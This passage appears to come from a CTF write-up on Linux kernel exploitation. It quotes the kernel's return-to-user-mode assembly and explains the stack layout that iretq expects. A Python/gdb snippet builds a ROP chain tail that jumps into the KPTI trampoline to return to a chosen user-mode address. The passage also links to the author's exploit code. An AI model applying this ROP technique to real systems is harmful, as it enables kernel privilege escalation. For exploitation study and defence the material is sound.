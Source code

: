 ```c
	POP_REGS pop_rdi=0 // {4}

	/*
	 * The stack is now user RDI, orig_ax, RIP, CS, EFLAGS, RSP, SS.
	 * Save old stack pointer and switch to trampoline stack.
	 */
	movq	%rsp, %rdi // {7}
	movq	PER_CPU_VAR(cpu_tss_rw + TSS_sp0), %rsp // {5}
	UNWIND_HINT_EMPTY

	/* Copy the IRET frame to the trampoline stack. */ // {6}
	pushq	6*8(%rdi)	/* SS */
	pushq	5*8(%rdi)	/* RSP */
	pushq	4*8(%rdi)	/* EFLAGS */
	pushq	3*8(%rdi)	/* CS */
	pushq	2*8(%rdi)	/* RIP */

	/* Push user RDI on the trampoline stack. */
	pushq	(%rdi)

	/*
	 * We are on the trampoline stack. All regs except RDI are live.
	 * We can do future final exit work right here.
	 */
	STACKLEAK_ERASE_NOCLOBBER

	SWITCH_TO_USER_CR3_STACK scratch_reg=%rdi // {7}

	/* Restore RDI. */
	popq	%rdi
	SWAPGS
	INTERRUPT_RETURN // {8}
```
What this teaches us, is that the kernel's interrupt return routine wants to be executed with a particular stack layout, which consists of register values saved on syscall entry. Then, setting the CPU to user mode happens by executing an [`iretq`](https://www.felixcloutier.com/x86/iret:iretd:iretq) instruction, which is a complex instruction that, among other things, sets multiple registers from values stored on the stack. Luckily, the expected layout is described in a helpful comment {6}. Thus, by appending the following tail to our ROP chain, which transfers control directly to the stack switch {7} as we are not interested in restoring any general-purpose registers, we can return to a chosen user mode address.
```Python
regs: gdb.Value = current_pt_regs()
rop_iret: List[int] = [
   swapgs_restore_regs_and_return_to_usermode + 22,
   int(regs["di"]), # rdi, was set to `flags` by user
   -1,             # rax, junk
   int(regs["si"]), # rip, was set to `&return_to_here` by user
   int(regs["cs"]),
   int(regs["flags"]),
   int(regs["sp"]),
   int(regs["ss"]),
]
```
Here, the gdb script is using the kernel-saved register values for convenience, however, the final exploit can simply read them with the appropriate CPU instructions when building the ROP chain [[29](https://github.com/vobst/ctf-corjail-public/blob/master/libexp/rop.c#L112)]. With all general-purpose registers being clobbered by the irregular syscall return and the new stack being empty, the user mode function we return to should not expect any arguments and never return itself.
